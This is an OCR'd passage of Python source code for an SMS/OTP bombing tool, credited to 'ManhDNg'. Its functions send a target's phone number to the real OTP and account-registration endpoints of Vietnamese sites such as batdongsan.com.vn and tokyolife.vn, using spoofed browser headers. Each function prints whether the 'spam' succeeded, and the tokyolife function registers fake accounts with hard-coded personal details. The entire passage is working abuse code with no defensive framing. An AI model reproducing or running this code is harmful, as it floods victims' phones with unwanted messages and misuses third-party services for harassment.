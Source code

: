             print(f'[BY: ManhDNg] ~ \033[1;35m MEDICARE SPAM THÀNH CÔNG')
    except:
        print(f'[BY: ManhDNg] ~ \033[1;35m MEDICARE SPAM THÀNH CÔNG')

def batdongsan(sdt):
    headers = {
        'authority': 'batdongsan.com.vn',
        'accept': 'application/json, text/plain, */*',
        'accept-language': 'vi-VN,vi;q=0.9,fr-FR;q=0.8,fr;q=0.7,en-US;q=0.6,en;q=0.5,ja;q=0.4',
        'referer': 'https://batdongsan.com.vn/sellernet/internal-sign-up',
        'sec-ch-ua': '"Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"',
        'sec-ch-ua-mobile': '?0',
        'sec-ch-ua-platform': '"Windows"',
        'sec-fetch-dest': 'empty',
        'sec-fetch-mode': 'cors',
        'sec-fetch-site': 'same-origin',
        'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36',
    }
    params = {
        'phoneNumber': sdt,
    }
    response = requests.get('https://batdongsan.com.vn/user-management-service/api/v1/Otp/SendToRegister', params=params, headers=headers,).json()
    try:
        if response ['data'] == 'success':
            print(f'[BY: ManhDNg] ~ \033[1;35m BATDONGSAN SPAM THÀNH CÔNG')
        else:
            print(f'[BY: ManhDNg] ~ \033[1;35m BATDONGSAN SPAM THẤT BẠI')
    except:
        print(f'[BY: ManhDang] ~ \033[1;35m BATDONGSAN SPAM THẤT BẠI')

def tokyolife(sdt):
    headers = {
        'authority': 'api-prod.tokyolife.vn',
        'accept': 'application/json, text/plain, */*',
        'accept-language': 'vi-VN,vi;q=0.9,fr-FR;q=0.8,fr;q=0.7,en-US;q=0.6,en;q=0.5,ja;q=0.4',
        'content-type': 'application/json',
        'origin': 'https://tokyolife.vn',
        'referer': 'https://tokyolife.vn/',
        'sec-ch-ua': '"Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"',
        'sec-ch-ua-mobile': '?0',
        'sec-ch-ua-platform': '"Windows"',
        'sec-fetch-dest': 'empty',
        'sec-fetch-mode': 'cors',
        'sec-fetch-site': 'same-site',
        'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36',
    }
    json_data = {
        'phone_number': sdt,
        'name': 'Chí Mum',
        'password': 'jkhjhgjfdf232',
        'email': 'nthanhhang518@gmail.com',
        'birthday': '2000-07-27',
        'gender': 'male',
    }
    response = requests.post('https://api-prod.tokyolife.vn/khachhang-api/api/v1/auth/register', headers=headers, json=json_data).json()
    if response ['success'] == True:
        print(f'[BY: ManhDang] ~ \033[1;35m TOKYOLIFE SPAM THÀNH CÔNG')
    else:
        print(f'[BY: ManhDang] ~ \033[1;35m TOKYOLIFE SPAM THẤT BẠI')

